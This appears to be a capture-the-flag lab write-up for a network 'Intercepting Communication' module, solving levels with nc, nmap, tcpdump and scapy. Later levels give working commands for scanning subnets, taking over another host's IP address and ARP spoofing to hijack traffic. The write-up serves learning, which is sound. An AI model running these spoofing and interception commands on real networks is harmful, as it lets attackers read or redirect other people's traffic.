 # Intercepting Communication

## level 1

> Connect to a remote host

* We can use `nc` to connect to the specified address on the port specified.

```
$ nc 10.0.0.3 31337
```



## level 2

> Listen for a connection from a remote host

* The `l` option in `nc` allows users to listen on a specified port.

```
$ nc -l 31337
```



## level 3

> Find and connect to a remote host

* `nmap` is a very useful tool that we can use to find open addressees and ports.

```
$ nmap -v 10.0.0.0/24 -p 31337
```

* After that we just have to connect on the open

```
$ nc 10.0.0.245 31337
```



## level 4

> Find and connect to a remote host on a large network

* This time we have to scan a `/16` so we need to speed up the process.
* The `T5` flag in `nmap` sets the scan speed to `insane` which is the fastest available speed.

```
$ nmap -v 10.0.0.0/16 -p 31337 -T5
```



## level 5

> Monitor traffic from a remote host

* We can use `tcpdump` to look at the packets we are receiving.

```
$ tcpdump -A
```

* The `A` flag prints out every packet in ASCII.



## level 6

tcpdump -A > packet.txt

cat packet.txt



## level 7

> Hijack traffic from a remote host by configuring your network interface

* In this level, the host at 10.0.0.4 is communicating with the host at 10.0.02.
* We can essentially become 10.0.0.2 so that we now receive those packets.

```
$ ip address add 10.0.0.2/16 dev eth0
```

* We have added the address on our `eth0` interface.
* Now when we receive an ARP `who-has` request asking for 10.0.0.2, we can send a `is-at` reply with our MAC address.

```
$ nc -l 31337
```



## level 8

> Manually send an Ethernet packet

* We can use `scapy` in order to create and send packets.

```python
>>> Ether().display()
WARNING: Mac address to reach destination not found. Using broadcast.
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = 00:00:00:00:00:00
  type      = 0x9000
```

* We have to change the default fields.

```python
>>> Ether(src="66:73:a8:6d:31:49", dst="ff:ff:ff:ff:ff:ff", type=0xFFFF).display()
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = 66:73:a8:6d:31:49
  type      = 0xffff
```

* Now that we have the correct fields, we are ready to send the packet.

```python
>>> sendp(Ether(src="66:73:a8:6d:31:49", dst="ff:ff:ff:ff:ff:ff", type=0xFFFF), iface="eth0")
```

* The remote host is connected to the `eth0` interface, so we send the packets out of the `eth0` interface.



## level 9

> Manually send an Internet Protocol packet

* We can encapsulate a packet within another packet using the `/` separator.

```python
>>> (Ether(src="c6:0a:09:24:4f:c9", dst="ff:ff:ff:ff:ff:ff") / IP()).display()
###[ Ethernet ]### 
  dst       = ff:ff:ff:ff:ff:ff
  src       = c6:0a:09:24:4f:c9
  type      = IPv4
###[ IP ]### 
     version   = 4
     ihl       = None
     tos       = 0x0
     len       = None
     id        = 1
     flags     = 
     frag      = 0
     ttl       = 64
     proto     = hopopt
     chksum    = None
     src       = 127.0.0.1
     dst       = 127.0.0.1
     \options   \
```

* Now we just have to fill the correct fields.

```python
>>> sendp(Ether(src="c6:0a:09:24:4f:c9", dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3", proto=0xFF), iface="eth0")
```



## level 10

> Manually send a Transmission Control Protocol packet

* We have to add another layer of encapsulation, which is TCP.

```python
>>> sendp(Ether(src="fa:2c:4a:60:51:ee", dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP( sport=31337, dport=31337, seq=31337, ack=31337, flags="APRSF"), iface="eth0")
```



## level 11

> Manually perform a Transmission Control Protocol handshake

* A TCP handshake is really just a sequence of packets that establishes a secure and reliable connection between two devices.

<figure><img src="../.gitbook/assets/TCP handshake.png" alt=""><figcaption></figcaption></figure>

* It includes three packets:
  * SYN
  * SYN-ACK
  * ACK
* We have to first send a SYN packet, represented by the `S` flag.

```python
>>> response = srp(Ether(src="1a:57:9e:f1:dd:33", dst="ff:ff:ff:ff:ff:ff") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31337, flags="S"), iface="eth0")
```

* Let's look at the response from the host at 10.0.0.3.

```python
>>> response[0][0]
QueryAnswer(
	query=<Ether  dst=ff:ff:ff:ff:ff:ff src=1a:57:9e:f1:dd:33 type=IPv4 |<IP  frag=0 proto=tcp src=10.0.0.2 dst=10.0.0.3 |<TCP  sport=31337 dport=31337 seq=31337 flags=S |>>>, 
	answer=<Ether  dst=1a:57:9e:f1:dd:33 src=1e:c3:ea:f1:34:3e type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=40 id=1 flags= frag=0 ttl=64 proto=tcp chksum=0x66cb src=10.0.0.3 dst=10.0.0.2 |<TCP  sport=31337 dport=31337 seq=3093962236 ack=31338 dataofs=5 reserved=0 flags=SA window=8192 chksum=0x362a urgptr=0 |>>>
)
```

* As we can see, the response has `seq` field set to `3093962236` and the `ack` field set to `31338` which is our `seq+1`.
* So the host at 10.0.0.3 has acknowledged our SYN packet. Now we have to acknowledge theirs by setting our `ack` field to `3093962237` which is their `seq+1`.

```python
>>> sendp(Ether(src="1a:57:9e:f1:dd:33", dst="1e:c3:ea:f1:34:3e") / IP(src="10.0.0.2", dst="10.0.0.3") / TCP(sport=31337, dport=31337, seq=31338, ack=3093962237, flags="A"), iface="eth0")
```



## level 12

> Manually send an Address Resolution Protocol packet

* We need to tell the host at 10.0.0.3 that we have the IP address that they want to talk to. For that we need to send an ARP `is-at` response.
* Note that ARP encapsulates an Ethernet frame.

```python
>>> ARP().display()
WARNING: No route found (no default route?)
WARNING: No route found (no default route?)
###[ ARP ]### 
  hwtype    = Ethernet (10Mb)
  ptype     = IPv4
  hwlen     = None
  plen      = None
  op        = who-has
  hwsrc     = 00:00:00:00:00:00
  psrc      = 0.0.0.0
  hwdst     = 00:00:00:00:00:00
  pdst      = 0.0.0.0
```

* The packet fields represent the following:
  * `hwsrc`: Source hardware address. This will be updated in the target's ARP table.
  * `psrc`: The IP to be added in the target's ARP table.
  * `hwdst`: Destination hardware address.
  * `pdst`: Destination where the ARP packet must go.

```python
>>> sendp(Ether(src="8a:3f:c0:ef:89:cf", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", psrc="10.0.0.2", hwsrc="8a:3f:c0:ef:89:cf"), iface="eth0")
```



## level 13

> Hijack traffic from a remote host using ARP

* In this level we have to achieve the same goal as level 7. However, we don't have the ability to add addresses as we are not the net admin.
* Therefore we will have to create an ARP packet from scratch and send it to the host on 10.0.0.4.

```python
>>> sendp(Ether(src="76:45:f9:f1:45:de", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", psrc="10.0.0.2", hwsrc="76:45:f9:f1:45:de") / IP(src="10.0.0.3", dst="10.0.0.4"), iface="eth0")
```



## level 14
